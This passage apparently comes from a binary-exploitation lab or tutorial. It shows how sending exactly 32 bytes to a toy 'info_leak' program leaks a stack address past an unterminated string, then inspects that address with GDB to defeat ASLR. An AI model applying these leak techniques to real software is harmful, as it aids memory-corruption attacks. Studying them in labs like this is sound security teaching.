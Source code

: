 The input is read using the `read()` system call. The first read expects
32 bytes. You can see already that there\'s another `read()` call. That
one is the first `read()` call in the `my_memory_write()` function.

As noted above, if we use exactly `32` bytes for name we will end up
with a non-null-terminated string, leading to an information leak.
Let\'s see how that goes:

``` {.code .bash}
$ python -c 'import sys; sys.stdout.write(32*"A")' | ./info_leak
hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�)���, what address to modify and with what value?
 
$ python -c 'import sys; sys.stdout.write(32*"A")' | ./info_leak | xxd
00000000: 6865 6c6c 6f20 4141 4141 4141 4141 4141  hello AAAAAAAAAA
00000010: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
00000020: 4141 4141 4141 f0dc ffff ff7f 2c20 7768  AAAAAA......, wh
00000030: 6174 2061 6464 7265 7373 2074 6f20 6d6f  at address to mo
00000040: 6469 6679 2061 6e64 2077 6974 6820 7768  dify and with wh
00000050: 6174 2076 616c 7565 3f0a                 at value?.
```

We see we have an information leak. We leak one piece of data above:
`0x7fffffffdcf0`. If we run multiple times we can see that the values
for the first piece of information differs:

``` {.code .bash}
$ python -c 'import sys; sys.stdout.write(32*"A")' | ./info_leak | xxd | grep ','
00000020: 4141 4141 4141 f0dc ffff ff7f 2c20 7768  AAAAAA......, wh
```

The variable part is related to a stack address (it starts with `0x7f`);
it varies because ASLR is enabled. We want to look more carefully using
GDB and figure out what the variable value represents:

``` {.code .bash}
$ gdb -q ./info_leak
Reading symbols from ./info_leak...done.
gdb-peda$ b my_main
Breakpoint 1 at 0x400560
gdb-peda$ r < <(python -c 'import sys; sys.stdout.write(32*"A")')
Starting program: info_leak < <(python -c 'import sys; sys.stdout.write(32*"A")')
[...]
 
# Do next instructions until after the call to printf.
gdb-peda$ ni
....
 
gdb-peda$ x/12g name
0x7fffffffdc20: 0x4141414141414141  0x4141414141414141
0x7fffffffdc30: 0x4141414141414141  0x4141414141414141
0x7fffffffdc40: 0x00007fffffffdc50  0x00000000004007aa
gdb-peda$ x/2i 0x004007aa
   0x4007aa <main+9>:  mov    edi,0x4008bc
   0x4007af <main+14>: call   0x400550 <puts@plt>
gdb-peda$ pdis main
Dump of assembler code for function main:
   0x00000000004007a1 <+0>:    push   rbp
   0x00000000004007a2 <+1>:    mov    rbp,rsp
   0x00000000004007a5 <+4>:    call   0x400756 <my_main>
   0x00000000004007aa <+9>:    mov    edi,0x4008bc
   0x00000000004007af <+14>:   call   0x400550 <puts@plt>
   0x00000000004007b4 <+19>:   mov    eax,0x0
   0x00000000004007b9 <+24>:   pop    rbp
   0x00000000004007ba <+25>:   ret    
End of assembler dump.
gdb-peda$  
```
